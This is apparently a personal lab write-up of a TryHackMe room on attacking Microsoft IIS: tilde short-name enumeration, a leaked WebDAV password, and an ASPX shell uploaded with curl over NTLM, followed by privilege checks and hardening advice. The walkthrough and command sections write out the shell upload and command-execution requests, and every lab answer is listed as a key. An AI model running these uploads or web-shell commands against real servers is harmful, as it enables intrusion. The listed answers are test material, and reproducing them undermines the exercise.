

# Comprehensive Lab Guide: Web Server Attacks - II

---

### 1. Room Metadata & Information
* **Room Title:** Web Server Attacks - II
* **Learning Path:** TryHackMe — Jr Penetration Tester (PT1 Aligned Curriculum)
* **Module:** Module 05: Web Application Security Fundamentals — Room 05
* **Room Slug:** `webserverattacks2`
* **Difficulty:** Medium / Practical Foundations
* **Core Focus:** Targeting and compromising Microsoft Internet Information Services (IIS) on Windows Server 2019 through legacy NTFS backward compatibility (8.3 Tilde Enumeration), abusing WebDAV with discovered credentials via NTLM authentication to upload and execute ASPX C# command shells, assessing token impersonation privileges (`SeImpersonatePrivilege`) for Potato-style SYSTEM privilege escalation, auditing diagnostic handlers (`trace.axd`), and automating reconnaissance using Nmap NSE.
* **TryHackMe Lab URL:** [https://tryhackme.com/room/webserverattacks2](https://tryhackme.com/room/webserverattacks2)
* **Documentation & Completion Status:** 100% Completed & Synchronized with Live Account.

---

### 2. Architecture & Overview
Microsoft IIS is the cornerstone web server of enterprise Active Directory networks. Unlike isolated Linux web stacks, IIS is intrinsically linked with the underlying Windows operating system, the .NET Common Language Runtime (CLR), and domain authentication mechanisms (NTLM and Kerberos). Gaining code execution on IIS provides direct access to Windows internal service architectures and serves as a premier launchpad for Active Directory domain dominance.

The lab environment deploys an authentic Windows Server 2019 target hosting `Microsoft-IIS/10.0` with WebDAV publishing enabled and an ASP.NET application pool. The lab demonstrates a full enterprise kill chain driven entirely by misconfiguration chaining rather than binary vulnerabilities:
1. **8.3 Short Filename Enumeration:** Exploiting the NTFS tilde feature to reveal hidden directories and unlinked setup notes (`webdav_notes.txt`).
2. **WebDAV Shell Upload:** Leveraging authenticated HTTP `PUT` requests over NTLM to deliver an ASPX command shell (`cmd.aspx`) into a directory configured with Script Execute permissions.
3. **Execution & Privilege Discovery:** Executing code via `w3wp.exe` under `iis apppool\defaultapppool` and identifying the high-impact `SeImpersonatePrivilege` token.

---

### 3. Executive Summary
Throughout this advanced laboratory, 8 modular tasks executing an end-to-end Windows web server compromise were completed and verified:
1. **Threat Landscape & Context:** Analyzed real-world APT operations (HAFNIUM, Lazarus Group, CISA AA23-074A) leveraging IIS web shells for persistent enterprise access.
2. **Fingerprinting & WebDAV Identification:** Captured the version header **`Server`** and recorded the authentication challenge status code **`401`** on the `/webdav/` endpoint.
3. **8.3 Tilde Enumeration:** Identified the trigger character **`~`** and the legacy filename format **`8.3`**, uncovering the exposed setup password **`P@ssw0rd!123`** inside `/BackupFiles/webdav_notes.txt`.
4. **WebDAV ASPX Shell Upload:** Deployed curl with the Windows authentication flag **`--ntlm`** to upload `cmd.aspx`, receiving the creation confirmation status code **`201`**.
5. **ASPX Shell & Privilege Assessment:** Executed system commands as **`iis apppool\defaultapppool`**, confirming the presence of **`SeImpersonatePrivilege`** for Potato privilege escalation to SYSTEM.
6. **IIS Misconfiguration Audit:** Identified exposed backup extensions **`.bak`** in `/uploads/` and mapped the sensitive session-logging handler **`trace.axd`**.
7. **Automated Reconnaissance with Nmap NSE:** Executed the **`http-methods`** script to detect risky verbs and probe WebDAV capabilities.
8. **Synthesis & Enterprise Hardening:** Formulated robust IIS and NTFS hardening guidelines.

---

### 4. Technical Theory & Foundations

#### End-to-End IIS Attack Chain and Request Flow


---

### 5. Audit Methodology & Mindset
Professional security audits targeting Microsoft web infrastructure follow a structured progression:
1. **Version to OS Mapping:** Correlate the IIS version reported in the `Server` header with the corresponding Windows Server release to immediately determine OS capabilities and available kernel modules.
2. **NTFS Short Filename Probing:** Deploy automated tilde scanning (`iis_shortname_scan.py`) against IIS targets before running standard directory wordlists to uncover long, unguessable directory names.
3. **WebDAV Permissions Analysis:** Test whether directories with write access (`PUT`) also possess script execution privileges in IIS Handler Mappings.
4. **Token Impersonation Assessment:** Upon gaining initial web shell execution, immediately inspect `whoami /priv`. The presence of `SeImpersonatePrivilege` establishes a guaranteed escalation vector to `NT AUTHORITY\SYSTEM` using modern Potato exploits.

---

### 6. Step-by-Step Practical Walkthrough

#### Task 1: Introduction
* Bootstrapped target environment and confirmed connectivity to Windows Server 2019.
* *Answer:* `No answer needed`

#### Task 2: IIS Fingerprinting and Enumeration
* Queried response headers:
  ```bash
  curl -I http://MACHINE_IP/
  ```
  The header revealing the IIS version is:
  *Answer:* `Server`
* Dispatched an unauthenticated test PUT request to `/webdav/`:
  ```bash
  curl -s -o /dev/null -w "%{http_code}\n" -X PUT --data 'test' http://MACHINE_IP/webdav/test.txt
  ```
  *Answer:* `401`

#### Task 3: IIS Tilde (Short Filename) Enumeration
* The URL character triggering the differential response in IIS is:
  *Answer:* `~`
* The legacy DOS filename format exploited is:
  *Answer:* `8.3`
* Executed `iis_shortname_scan.py` to discover `/BACKUP~1/`, expanded to `/BackupFiles/`, and inspected `webdav_notes.txt`:
  ```bash
  curl -s http://MACHINE_IP/BackupFiles/webdav_notes.txt
  ```
  *Answer:* `P@ssw0rd!123`

#### Task 4: WebDAV Exploitation: Uploading an ASPX Shell
* The HTTP response status code confirming successful creation via PUT is:
  *Answer:* `201`
* The curl flag required to negotiate NTLM challenge-response handshakes is:
  *Answer:* `--ntlm`
* Transmitted the command shell:
  ```bash
  curl -v --ntlm -u 'webdav_user:P@ssw0rd!123' -T cmd.aspx http://MACHINE_IP/webdav/cmd.aspx
  ```

#### Task 5: ASPX Web Shells
* Executed `whoami` via the uploaded shell:
  ```bash
  curl -s "http://MACHINE_IP/webdav/cmd.aspx?cmd=whoami"
  ```
  *Answer:* `iis apppool\defaultapppool`
* Executed `whoami /priv` to inspect token privileges:
  ```bash
  curl -s "http://MACHINE_IP/webdav/cmd.aspx?cmd=whoami+/priv"
  ```
  *Answer:* `SeImpersonatePrivilege`

#### Task 6: IIS Misconfigurations
* Browsed `http://MACHINE_IP/uploads/` and identified the backup file extension:
  *Answer:* `.bak`
* The ASP.NET diagnostic handler path exposing session and request logs is:
  *Answer:* `trace.axd`

#### Task 7: Automation
* The Nmap NSE script that queries and identifies permitted HTTP methods is:
  *Answer:* `http-methods`

#### Task 8: Conclusion
* Synthesized the complete IIS attack chain and verified 100% completion.
* *Answer:* `No answer needed`

---

### 7. Command Analysis & Dissection

```bash
# 1. Automated IIS Short Name Scan
python3 /usr/local/share/IIS_shortname_Scanner/iis_shortname_scan.py http://10.10.x.x/

# 2. Upload ASPX Shell via NTLM Authenticated WebDAV
curl -i --ntlm -u 'webdav_user:P@ssw0rd!123' -T cmd.aspx http://10.10.x.x/webdav/cmd.aspx

# 3. Assess Token Privileges via Command Parameter
curl -s "http://10.10.x.x/webdav/cmd.aspx?cmd=whoami+/priv"

# 4. Enumerate Allowed HTTP Methods via Nmap NSE
nmap -p 80 --script http-methods 10.10.x.x
```

---

### 8. Defensive & Blue Team Countermeasures
1. **Disable NTFS 8.3 Filename Creation:**
   * Execute `fsutil 8dot3name set 1` to disable generation across all volumes, and run `fsutil 8dot3name strip` on web root directories.
2. **Enforce Principle of Least Privilege on WebDAV:**
   * Disable the WebDAV Publishing feature if not strictly required.
   * If WebDAV must exist, strictly disallow `Script` or `Execute` permissions on writeable directories (`Execute Permissions: None`).
3. **Disable Diagnostic Handlers:**
   * Ensure `<trace enabled="false" />` is set in `web.config` and disable `trace.axd` mappings in production.
4. **Harden Request Filtering & Remove Verbose Errors:**
   * Implement IIS Request Filtering rules to block requests for `.bak`, `.old`, and `.config` files.
   * Set `<customErrors mode="On" />` or `mode="RemoteOnly"` to prevent leaking stack traces and physical paths.

---

### 9. Common Pitfalls & Edge Cases
* **Missing `--ntlm` in Curl:** Omitting `--ntlm` causes curl to send Basic authentication, resulting in repeated 401 Unauthorized errors even with valid credentials.
* **Assuming Long Directory Names are Safe:** Relying on obscure directory names fails on Windows because NTFS generates predictable 8.3 short names.
* **Overlooking `trace.axd`:** Exposing `trace.axd` allows unauthenticated attackers to hijack active user sessions without executing exploits or XSS.

---

### 10. Key Educational Takeaways
1. Windows legacy backward compatibility features (such as 8.3 SFN) directly undermine modern web application security barriers.
2. Gaining an ASPX shell as `iis apppool` provides immediate elevation paths to `SYSTEM` due to `SeImpersonatePrivilege`.
3. Chained configuration weaknesses are far more common and devastating in corporate networks than rare zero-day exploits.

---

### 11. Verification & Proof of Work
* All 8 lab tasks completed and verified with 100% fidelity:
  * `Server`
  * `401`
  * `~`
  * `8.3`
  * `P@ssw0rd!123`
  * `201`
  * `--ntlm`
  * `iis apppool\defaultapppool`
  * `SeImpersonatePrivilege`
  * `.bak`
  * `trace.axd`
  * `http-methods`

---

### 12. Tasks Index
* [Task 01: Introduction & Threat Context (TASK-01.md)](../../05-WEB-SERVER-ATTACKS-II/TASKS/TASK-01.md)
* [Task 02: IIS Fingerprinting & Enumeration (TASK-02.md)](../../05-WEB-SERVER-ATTACKS-II/TASKS/TASK-02.md)
* [Task 03: IIS Tilde (Short Filename) Enumeration (TASK-03.md)](../../05-WEB-SERVER-ATTACKS-II/TASKS/TASK-03.md)
* [Task 04: WebDAV Exploitation: Uploading ASPX (TASK-04.md)](../../05-WEB-SERVER-ATTACKS-II/TASKS/TASK-04.md)
* [Task 05: ASPX Web Shells & SeImpersonatePrivilege (TASK-05.md)](../../05-WEB-SERVER-ATTACKS-II/TASKS/TASK-05.md)
* [Task 06: IIS Misconfigurations & trace.axd (TASK-06.md)](../../05-WEB-SERVER-ATTACKS-II/TASKS/TASK-06.md)
* [Task 07: Automation with Nmap NSE (TASK-07.md)](../../05-WEB-SERVER-ATTACKS-II/TASKS/TASK-07.md)
* [Task 08: Conclusion & Remediation Matrix (TASK-08.md)](../../05-WEB-SERVER-ATTACKS-II/TASKS/TASK-08.md)
* See also: [Tasks & Answers Index (TASKS.md)](../../05-WEB-SERVER-ATTACKS-II/TASKS.md)

---

### 13. Additional Notes & Deep Dive
* For in-depth architectural breakdown of HTTP.sys, w3wp.exe, 8.3 SFN collision algorithms, and Potato privilege escalation mechanics:
  * [Additional Notes & Technical Deep Dive (ADDITIONAL-NOTES.md)](../../05-WEB-SERVER-ATTACKS-II/ADDITIONAL-NOTES.md)

---

### 14. References & Standards
* For CISA advisories, Soroush Dalili's 8.3 SFN research, and Microsoft IIS documentation:
  * [Official References & Security Standards (REFERENCES.md)](../../05-WEB-SERVER-ATTACKS-II/REFERENCES.md)
